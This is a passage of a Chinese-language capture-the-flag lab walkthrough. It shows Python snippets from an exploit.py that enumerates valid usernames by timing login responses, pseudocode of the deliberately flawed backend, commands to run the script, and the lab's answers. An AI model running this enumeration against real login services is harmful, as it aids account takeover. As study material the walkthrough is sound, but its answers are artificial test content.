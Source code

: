 *   检查哪些请求花费的时间更长

```
# Longer times normally mean valid usernames as passwords were verified
largestTime = max(timings.values())
smallestTime = min(timings.values())
# Ideally the smallest times should be near instant, and largest should be 1+ seconds
print("Time delta:", largestTime-smallestTime, "seconds (larger is better)")
```

*   打印耗时较长的用户名

```
# A valid username means the server will hash the password
# As this takes time, the longer requests are likely to be valid users
# The longer the request took, the more likely the request is to be valid.
for user, time in timings.items():
    if time >= largestTime * 0.9:
        # with 10% time tolerence
        print(user, "is likely to be valid")
```

**为什么耗时会改变？**

后端故意写得很差。只有当服务器收到正确的用户名时，它才会尝试验证用户的密码。下面的伪代码可以更好地解释这一点。

```
def login(username, password):
    if username in users: ##If it's a valid username
        login_status = check_password(password) ##This takes a noticeable amount of time
        if login_status:
            return new_session_token()
        else:
            return "Username or password incorrect"
    else:
        return "Username or password incorrect"
```

现在我们知道了脚本是如何工作的，让我们运行它

```
chmod 777 exploit.py
python3 exploit.py
```

**注意:** 不要忘记在 exploit.py 文件所在的目录下添加 names.txt 文件

*   列表中有多少用户名是有效的？

```
1
```

*   什么是有效的用户名？

```
james
```

# 任务 4 攻击密码
